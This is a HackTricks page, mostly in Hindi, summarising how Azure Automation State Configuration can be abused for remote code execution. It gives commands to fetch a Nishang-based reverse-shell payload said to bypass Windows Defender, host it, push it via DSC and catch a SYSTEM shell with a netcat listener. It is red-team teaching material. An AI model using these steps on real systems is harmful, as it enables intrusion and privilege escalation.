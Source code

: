 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

यह प्रक्रिया एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करने के लिए एक रिमोट सर्वर इन्फ्रास्ट्रक्चर सेट करने में शामिल है, जिसे `RevPS.ps1` कहा जाता है, जिसे Windows Defender को बायपास करने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक साधारण Python HTTP सर्वर के माध्यम से परोसा जाता है। यह ऑपरेशन कई चरणों के माध्यम से निष्पादित किया जाता है:

#### Step 1 — Create Files

* **Files Required:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक Desired State Configuration (DSC) फ़ाइल जो पेलोड को लाने और निष्पादित करने के लिए है। इसे [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) से प्राप्त किया जा सकता है।
2. `push_reverse_shell_config.ps1`: VM पर कॉन्फ़िगरेशन प्रकाशित करने के लिए एक स्क्रिप्ट, जो [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) पर उपलब्ध है।
* **Customization:** इन फ़ाइलों में वेरिएबल और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, जिसमें संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता शामिल हैं।

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1` को एक `.zip` फ़ाइल में संकुचित किया जाता है, जिससे इसे Azure Storage Account में स्थानांतरित करने के लिए तैयार किया जा सके।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — सेट स्टोरेज कॉन्टेक्स्ट और अपलोड करें

* ज़िप किया गया कॉन्फ़िगरेशन फ़ाइल एक पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest, में Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Kali सर्वर GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* स्क्रिप्ट को लक्षित Windows VM और रिवर्स शेल के लिए पोर्ट निर्दिष्ट करने के लिए संपादित किया गया है।

#### Step 5 — Publish Configuration File

* कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिसके परिणामस्वरूप रिवर्स-शेल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर तैनात किया जाता है।

#### Step 6 — Host Payload and Setup Listener

* पायथन SimpleHTTPServer को पेलोड को होस्ट करने के लिए शुरू किया जाता है, साथ ही एक Netcat लिस्नर को आने वाले कनेक्शनों को कैप्चर करने के लिए।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* निर्धारित कार्य पेलोड को निष्पादित करता है, SYSTEM-स्तरीय विशेषाधिकार प्राप्त करता है।

#### निष्कर्ष

इस प्रक्रिया का सफल निष्पादन आगे की क्रियाओं के लिए कई संभावनाएँ खोलता है, जैसे कि क्रेडेंशियल डंपिंग या हमले को कई VMs तक बढ़ाना। गाइड Azure Automation DSC के क्षेत्र में निरंतर सीखने और रचनात्मकता को प्रोत्साहित करता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
